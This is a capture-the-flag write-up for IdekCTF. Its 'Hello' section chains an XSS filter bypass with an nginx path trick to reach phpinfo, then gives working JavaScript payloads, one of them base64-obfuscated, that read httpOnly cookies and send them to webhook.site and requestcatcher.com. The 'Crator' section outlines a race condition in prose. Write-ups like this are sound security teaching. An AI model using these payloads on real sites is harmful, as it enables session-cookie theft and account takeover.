# Writeups for IdekCTF

# Hello (Web)

This was like a normal admin bot cookie exfiltration challenge but with some twists.

Firstly we have these files:
index.php, info.php, admin.js, nginx.conf.

Notable things about each of these:

The info.php basically fetches the phpinfo() which is a function that displays a lot of information especially the cookie of the viewer.
And most importantly it can even display httpOnly cookies which can't normally be accessed by client side javascript.

https://www.webhackingtips.com/weekly-tips/week-8-stealing-httponly-cookies-from-phpinfo

index.php
This page accepts a name attribute in the GET request,creates a local variable with substring of this value (But does not use this variable!) 
and then echo's the same after filtering some characters (`$trimmed = array("\r", "\n", "\t", "/", " ")`). 
But this filter is not enough and it is vulnerable to XSS like `/?name=<svg%0conload=alert(123)>`. 

The admin.js shows that the flag is in the bot's cookie.

Finally the nginx conf shows that info.php is resticted to only localhost(and the admin bot is not running on the same system). But this can be bypassed due to 
a php quirk: There is a known trick in php, if we access to /a.php/b.php, the server will ignore the second php file and point us to /a.php. 
In the nginx configuration file they are matching exactly /info.php so if we try /info.php/anything.php, 
it will not match the nginx rule and it will be allowed!

Combining these our payload should be:

```
<script>
fetch("/info.php/index.php")
  .then(response => response.text())
  .then(data => fetch("https://webhook.site/61fec18d-858c-459a-ad80-b3165f77caca/" + btoa(data.substring(data.indexOf("$_COOKIE"), data.indexOf("$_COOKIE") + 100))))
</script>
```
We can't put this directly due to the filter so we base64 encode it. Also we have to url encode the base64 string because of the '+' in it.
The final payload to send to the bot:

`http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=eval(atob("ZmV0Y2goIi9pbmZvLnBocC9pbmRleC5waHAiKQogIC50aGVuKHJlc3BvbnNlID0%2BIHJlc3BvbnNlLnRleHQoKSkKICAudGhlbihkYXRhID0%2BIGZldGNoKCJodHRwczovL3dlYmhvb2suc2l0ZS82MWZlYzE4ZC04NThjLTQ1OWEtYWQ4MC1iMzE2NWY3N2NhY2EvIiArIGJ0b2EoZGF0YS5zdWJzdHJpbmcoZGF0YS5pbmRleE9mKCIkX0NPT0tJRSIpLCBkYXRhLmluZGV4T2YoIiRfQ09PS0lFIikgKyAxMDApKSkpCg%3D%3D"))>`

This works but there is another interesting approach: https://vaktibabat.github.io/posts/idek_2024/
Instead of base64 you get the filtered elements using substring. So `http://` using `window.location.href.substring(0, 7)` as the windows is http://idek-hello.chal.idek.team:1337
and another substring for getting the '/', `window.location.href.substring(5, 6)`.
So this .js code:

```
fetch(window.location.href.substring(0, 7) + "idek-hello.chal.idek.team:1337" + bwindow.location.href.substring(5,6) + "info.php" + window.location.href.substring(5,6) + "index.php").then(function(response) {
	response.text().then(function(txt) {
	txt.split(`\n`).forEach(function(line) {
		if(line.indexOf("FLAG")!=-1) {
		fetch(window.location.href.substring(0, 7) + "nopro.requestcatcher.com" + window.location.href.substring(5,6) + "cookies?resp=" + line)}
	})
	})
})
```
becomes 

```http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=fetch(window.location.href.substring(0, 7)%2b"idek-hello.chal.idek.team:1337"%2bwindow.location.href.substring(5,6)%2b"info.php"%2bwindow.location.href.substring(5,6)%2b"index.php").then(function(response){response.text().then(function(txt){txt.split(`\n`).forEach(function(line){if(line.indexOf("FLAG")!=-1){fetch(window.location.href.substring(0, 7)%2b"nopro.requestcatcher.com"%2bwindow.location.href.substring(5,6)%2b"cookies?resp="%2bline)}})})})>```
which is sent to the bot.

# Crator

Its basically a race condition where you generate a file containing the flag using one endpoint, leave it on a infinite loop to prevent the file from getting deleted and extract the 
flag using another endpoint before the code  execution of the first one is stopped by the instance(which happens in about 1s).

Very detailed writeup:

https://vaktibabat.github.io/posts/idek_2024/